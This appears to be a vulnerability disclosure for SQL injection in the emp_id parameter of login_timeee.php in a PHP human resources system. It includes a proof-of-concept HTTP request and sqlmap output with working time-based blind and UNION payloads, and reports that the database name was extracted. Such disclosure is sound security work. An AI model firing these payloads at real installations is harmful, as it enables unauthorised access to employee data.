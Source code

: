# Human Resource Integrated System has SQL Injection in login_timeee.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

In the `login_timeee.php` file of the Human Resource Integrated System, there is no filtering when obtaining the `emp_id` parameter and executing the SQL statement, resulting in a SQL injection vulnerability.

![image-20250822175040530](image/image-20250822175040530.png) 

## POC

```
GET login_timeee.php?emp_id=1*
 HTTP/1.1
Host: hris
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

The results of SQLmap are as follows:

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: emp_id=(CASE WHEN (4083=4083) THEN SLEEP(5) ELSE 4083 END)

    Type: UNION query
    Title: Generic UNION query (random number) - 14 columns
    Payload: emp_id=-7715 UNION ALL SELECT 4884,4884,4884,4884,4884,4884,4884,4884,4884,CONCAT(0x7162626271,0x5a7569474a5246584a504a5272696d52717073764362426e6f4a467652414f4c4e557179587a7777,0x71716b7a71),4884,4884,4884,4884-- -
```

Get database: `hrms_db`

![image-20250822180007920](image/image-20250822180007920.png)

